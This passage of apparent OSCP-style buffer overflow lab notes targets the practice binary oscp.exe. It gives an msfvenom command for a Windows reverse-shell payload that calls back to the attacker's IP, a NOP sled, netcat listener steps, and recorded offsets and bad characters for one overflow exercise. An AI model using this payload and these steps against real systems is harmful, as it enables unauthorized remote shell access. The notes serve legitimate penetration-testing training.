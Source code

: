 `\xaf\x11\x50\x62`

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the
LHOST and updating the -b option with all the badchars you identified
(including \x00):

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py`

Copy the generated python code and integrate it into your exploit.py script,
e.g. by setting the payload variable equal to the buf variable from the code.

### Prepend NOPs

Since an encoder was likely used to generate the payload,
you will need some space in memory for the payload to unpack itself.
You can do this by setting the padding variable to a string of 16 or more
"No Operation" (\x90) bytes:

`padding = "\x90" * 16`

Exploit!

With the correct prefix, offset, return address, padding, and payload set,
you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the
msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again.
Your netcat listener should catch a reverse shell!

[Tib3rius_notes](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

## Overflow 2

`Crashed at 700 bytes`

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1100`

`EIP: 0x76413176 (634)`

`ESP: 018AFA30`

`00 01 02 03 04 23 24 3c 3d 83 84 ba bb`

## Overflow 3

`Crashed at 700 bytes`

## Overflow 4

## Overflow 5
